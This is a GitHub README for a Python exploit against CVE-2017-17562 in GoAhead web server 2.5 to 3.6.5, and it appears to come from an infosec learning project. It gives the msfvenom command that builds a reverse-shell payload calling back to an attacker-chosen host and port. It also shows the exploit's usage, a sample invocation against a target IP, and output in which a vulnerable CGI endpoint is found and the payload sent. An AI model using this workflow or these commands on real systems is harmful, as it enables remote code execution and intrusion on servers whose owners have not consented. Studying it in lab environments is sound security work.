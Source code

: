 # CVE-2017-17562 RCE GoAhead web server 2.5 < 3.6.5
Standalone Python 3 reverse shell exploit for CVE-2017-17562, works on GoAhead web server versions 2.5 < 3.6.5.

Blog [article here](https://ivanitlearning.wordpress.com/2019/11/02/exploit-rewrite-goahead-web-server-2-5-3-6-5/).

Written and tested on Python 3.7 based on [POC and vulnerable environment here](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562). Some code borrowed from [the Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb).

Original POC [found here](https://github.com/elttam/advisories/tree/master/CVE-2017-17562). I wrote this because I couldn't get the original POC exploit to work, and only realised that it was missing a function to search for the CGI module to exploit ie. it requires the user to specify its location or provide a wordlist for recursive search.

## Usage
```
root@Kali:~/Infosec/RubyStuff/GoAhead-Web-Server-2.5~3.6.5# ./exploit.py -h
usage: exploit.py [-h] -rhost RHOST [-rport RPORT] [-cgipath CGIPATH] -payload
                  PAYLOAD

Generate the payload first, eg: 
msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=192.168.92.134 LPORT=4444 -f elf-so -o dir/payload.so

Required arguments:
  -rhost RHOST      Target host running Go Ahead webserver eg. 192.168.92.153
  -payload PAYLOAD  Path to the malicious elf-so payload. eg dir/payload.so

Optional arguments:
  -rport RPORT      Target port running GoAhead webserver. Default: 8080
  -cgipath CGIPATH  The path to a CGI script on the GoAhead server Default: '/cgi-bin' as in http://192.168.92.153/cgi-bin

Call the exploit like this: 
./exploit.py -rhost 192.168.92.153 -rport 8080 -cgipath /cgi-bin/index -payload dir/payload.so
root@Kali:~/Infosec/RubyStuff/GoAhead-Web-Server-2.5~3.6.5# ./exploit.py -rhost 192.168.92.153 -rport 8080 -payload payload3.so 
Searching 390 paths for an exploitable CGI endpoint...
Exploitable CGI located at /cgi-bin/index
Sending payload...
```
